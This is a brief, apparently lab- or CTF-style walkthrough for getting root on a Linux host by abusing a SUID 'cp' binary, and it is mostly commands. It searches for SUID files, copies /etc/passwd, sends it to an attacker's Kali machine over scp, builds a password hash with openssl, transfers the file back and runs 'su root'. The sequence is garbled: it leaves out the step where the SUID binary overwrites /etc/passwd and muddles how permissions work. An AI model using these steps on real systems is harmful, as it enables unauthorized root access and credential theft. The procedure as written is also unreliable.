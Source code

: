 ### Scan for SUID files
```
find / -perm -4000 -type f 2>/dev/null
```

**check permissions individually**
**The `cp` binary has the SUID permissions**

#### Copy and Transfer the `cp` file
```
cp /etc/passwd /tmp/passwd
```
- **Unfortunately, the `cp` command retains the permissions of the original file, so you can't edit the file on the target machine.**

**Kali machine**
```bash
scp <victim-username>@<victim-ip>:<path_to_file> <path_on_kali>
```

#### Generate a hash
```bash
openssl passwd -1 -salt <my_salt> <password123>
```

**edit the file and transfer back to the victim**
```bash
scp <local_file> <victim_username>@<victim_ip>:<remote_path>
```

### Access root
```
su root
```



